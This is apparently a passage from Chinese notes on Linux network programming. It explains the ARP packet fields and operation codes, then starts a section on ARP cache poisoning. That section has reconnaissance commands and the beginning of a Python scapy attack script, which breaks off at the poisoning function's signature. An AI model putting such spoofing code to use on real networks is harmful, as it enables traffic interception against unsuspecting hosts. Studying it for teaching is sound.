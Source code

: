 以太网的地址解析协议 ARP 协议分组数据格式，如图 5.25 所示。ARP 协议的实现方式是在以太网上做广播，查询目的 IP 地址，接收到 ARP 请求的主机响应请求方，将本机的 MAC 地址反馈给请求的主机。

![](../../assets/images/Linux网络编程/图5.25_ARP分组字段格式.png)

- 以太网头部部分的目的硬件地址和源硬件地址，分别为以太网硬件的地址的发送方和接收方的硬件地址，例如 MAC 地址。当目的硬件地址为全 1 即 0xFFFFFFFFFFFF 的地址时，为广播帧，在以太网上的所有接口都要接收此帧数据。

- 帧类型为两个字节长度，表示后面数据的类型。对于 **ARP 请求应答，该字段为 0x0806**。

- 硬件类型 hwtype 表示硬件地址的类型，值为 1 表示以太网硬件地址。

- 协议类型 ptype 表示要映射的协议地址类型，值为 0x0800 表示询问 IP 地址。

- 硬件地址长度 hwlen，表示硬件地址以字节为单位的长度，对于 ARP 请求来说，硬件地址为以太网的 MAC 地址，值为 6。

- 协议地址长度 plen，表示协议地址以字节为单位的长度，对于 ARP 请求来说，协议地址为 IP 地址，为 32 位，值为 4。

- 操作方式字段为本次操作的类型 op，可选方式如表 5.5 所示，ARP 请求帧和 ARP 应答帧的区别，可用此字段的值不同来确定。

表 5.5 ARP 操作方式

值 | 含义
1 | ARP 请求
2 | ARP 应答
3 | RARP 请求
4 | RARP 应答

- 余下的 4 个字段分别为发送方的硬件地址hwsrc、发送方的 IP 地址psrc、接收方的硬件地址hwdst、接收方的 IP 地址pdst。

ARP 请求应答的操作方式很简单，将接受到数据字段的发送方和接收方的值对调，将所有本机的硬件地址和 IP 地址的值填充到合适的发送方位置。

在 ARP 操作中，有效数据的长度为 28 个字节，不足以太网定义的最小长度 46 字节长度，需要填充字节，填充字节最小长度为 18 个字节。

ARP 则是地址解析协议，获得 IP 地址对应的硬件地址；与 RARP 协议如 ARP 相反的协议，叫逆地址解析协议，获得硬件地址对应的 IP 地址，通常用于无盘工作站。

#### ARP 缓存投毒

##### 目标机

```shell
ip addr
```

```shell
arp -a
```

攻击过程中，目标机将攻击者当成网关。

```python
from time import sleep

from scapy.layers.inet import Ether
from scapy.layers.l2 import ARP
from scapy.sendrecv import send, srp1


def get_mac_by_ip(ip="192.168.0.1"):
    """通过 IP 获取对方 MAC"""
    answer = srp1(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip), timeout=2)
    if answer is not None:
        return answer[Ether].src
    return ""


def arp_cache_poisoning_attack(gateway_ip="192.168.0.1", target_ip="192.168.0.106"):
```